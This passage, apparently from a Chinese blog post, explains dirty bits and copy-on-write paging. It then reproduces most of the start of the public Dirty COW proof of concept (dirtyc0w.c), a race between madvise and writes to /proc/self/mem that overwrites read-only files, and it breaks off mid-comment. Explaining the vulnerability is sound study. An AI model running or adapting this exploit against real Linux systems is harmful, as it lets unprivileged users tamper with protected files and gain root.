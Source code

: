 > 由于磁盘访问时间长达几千万个时钟周期，所以需要尽量减少访问磁盘特别是写入磁盘的操作
因为内存中的页只能使用写回机制写入磁盘
还需要在页表中添加一个**脏位（Dirty Bit）**，用于标记页是否被修改过，被修改过的才需要写回磁盘

### 官方 PoC

链接：<https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c>

以下对注释做了删减，对注释部分有兴趣的读者可以自行查看

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;

void *madviseThread(void *arg)
{
    char *str;
    str = (char *)arg;
    int i, c = 0;
    for (i = 0; i < 100000000; i++)
    {
        c += madvise(map, 100, MADV_DONTNEED);
    }
    printf("madvise %d\n\n", c);
}

void *procselfmemThread(void *arg)
{
    char *str;
    str = (char *)arg;
    int f = open("/proc/self/mem", O_RDWR);
    int i, c = 0;
    for (i = 0; i < 100000000; i++)
    {
        lseek(f, (uintptr_t)map, SEEK_SET);
        c += write(f, str, strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}

int main(int argc, char *argv[])
{
    if (argc < 3)
    {
        (void)fprintf(stderr, "%s\n",
                      "usage: dirtyc0w target_file new_content");
        return 1;
    }
    pthread_t pth1, pth2;
    f = open(argv[1], O_RDONLY);
    fstat(f, &st);
    name = argv[1];
    /*
    You have to use MAP_PRIVATE for copy-on-write mapping.
```
